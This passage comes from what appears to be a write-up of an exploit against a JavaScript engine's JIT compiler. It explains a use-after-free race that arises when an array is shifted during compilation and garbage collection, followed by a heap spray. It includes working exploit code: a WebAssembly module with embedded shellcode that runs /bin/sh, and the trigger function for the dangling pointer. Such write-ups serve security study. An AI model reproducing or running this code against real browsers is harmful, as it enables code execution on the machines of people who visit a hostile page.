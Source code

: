 Now I created a wasm instance that has our smuggled shellcode, Which I have explained below. This is used in the later stages of exploit to get Code Execution.
```js
////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////

var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f1 = wasm_instance.exports.main;
```

Below exploit code is similar to the POC, which tries to get a dangling pointer in `val`. 
```js
function exploit() {

    let push_obj = [420];
    let arr = [1.1]; 

    for(let i=0;i<120;i++){
        arr.push(push_obj);
    }
    
    function bug(){
        arr.shift()                                             // move the array.    
        
        for (let i = 0; i < 10000; i++) { console.i += 1; }     // Trigger the compilation job
        
        let val = arr[0];                                       // reduce heap constant         
        function gcing() {
            const v15 = new Uint8ClampedArray(120*0x400000);
        }
        
        gcing();                                                // Use After Free trigger - relocate the elements to old space
        for (let v19 = 0; v19 < 500; v19++) {}                  // not sure why ? (time issue ?)
    }
    
    // 4th time is when the race condition happens.
    for(let i=0;i<4;i++){
        bug();
    }
```

Next, we start spraying the heap with multiple arrays to get to know where the dangling pointer is at. We know we have an overlap with the dangling pointer with the help of `if(arr[0] != push_obj)` check. We can further confirm that it is our arrays with size `0x50` and `0x60` consecutively. Then we search through all the arrays that has a new_len and we can confirm that it will be our Out Of bounds array. Since the actual length is much smaller than the manipulated length.
